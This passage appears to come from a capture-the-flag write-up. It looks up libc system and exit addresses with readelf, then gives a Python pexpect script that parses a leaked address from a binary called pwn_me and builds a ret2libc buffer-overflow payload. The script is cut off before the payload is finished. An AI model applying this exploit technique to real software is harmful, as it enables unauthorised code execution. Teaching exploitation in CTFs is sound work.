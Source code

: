 Then `system` address `readelf -s /lib32/libc.so.6 | grep system`

```
1457: 0003a950    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

And finally `exit` address (not sure why tho ?) `readelf -s /lib32/libc.so.6 | grep exit` 

```
141: 0002e7c0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
```



After some tinkering, I figured that the input can be sent after the program is already running. This will allow us to retrieve the address for `system` given in the output of `pwn_me`.

We are going to use `pexpect` python module to do so.



Here is the complete exploit script :

```python
import struct
import pexpect
import time

in_gdb = False

padding = 32

# Calc offsets from glibc addresses
syst_a = 0x0003a950
bin_sh_a = 0x0015910b
exit_a = 0x0002e7c0

bin_sh_offset = bin_sh_a - syst_a
exit_offset = exit_a - syst_a

# Spawn process and retrieve system address
if in_gdb:
	proc = pexpect.spawn('gdb ./pwn_me')
	proc.expect(b'(gdb)')
	proc.sendline(b'r')
	proc.expect("Binexgod")
else :
	proc = pexpect.spawn('./pwn_me')
proc.expect(b'\n')
proc.expect(b'\n')
output = proc.before.strip()
real_system_addr = int(output.split(b'0x')[-1],16)

syst_a = real_system_addr
bin_sh_a = syst_a + bin_sh_offset
exit_a = syst_a + exit_offset

print(output.decode(), '\n')
print("system address : ", hex(syst_a))
print("Exit address : ", hex(exit_a))
print("/bin/sh address : ", hex(bin_sh_a))

syst_a = struct.pack("<I", syst_a)
bin_sh_a = struct.pack("<I", bin_sh_a)
exit_a = struct.pack("<I", exit_a)

buff = b"A" * padding
buff += syst_a
buff += exit_a
```